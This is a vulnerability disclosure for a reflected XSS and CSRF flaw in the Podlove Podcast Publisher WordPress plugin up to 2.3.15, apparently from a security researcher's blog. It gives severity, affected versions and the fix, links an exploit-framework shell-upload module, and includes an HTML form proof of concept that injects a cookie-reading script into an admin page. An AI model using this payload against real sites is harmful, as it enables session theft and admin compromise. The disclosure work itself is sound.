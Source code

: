 ```yaml
---
layout: single
title: Podlove Podcast Publisher <= 2.3.15 Reflected XSS
date: 2017-01-21
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - podlove podcast publisher
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in `lib/episode_asset_list_table.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field during a form post.
---
```

## Homepage
[https://wordpress.org/plugins/podlove-podcasting-plugin-for-wordpress/](https://wordpress.org/plugins/podlove-podcasting-plugin-for-wordpress/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in `lib/episode_asset_list_table.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field during a form post.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
2.3.15 and below

## Solution
Upgrade to the latest version of the plugin

## WordPress Exploit Framework Module
[exploit/xss/reflected/podlove\_podcast\_publisher\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/exploit/xss/reflected/podlove_podcast_publisher_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form method="POST" action="[target]/wp-admin/admin.php?page=podlove_episode_assets_settings_handle">
  <input type="text" name="page" value="&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;&lt;a href=&quot;">
  <input type="submit">
</form>
```

## WPVDB-ID
[8697](https://wpvulndb.com/vulnerabilities/8697)
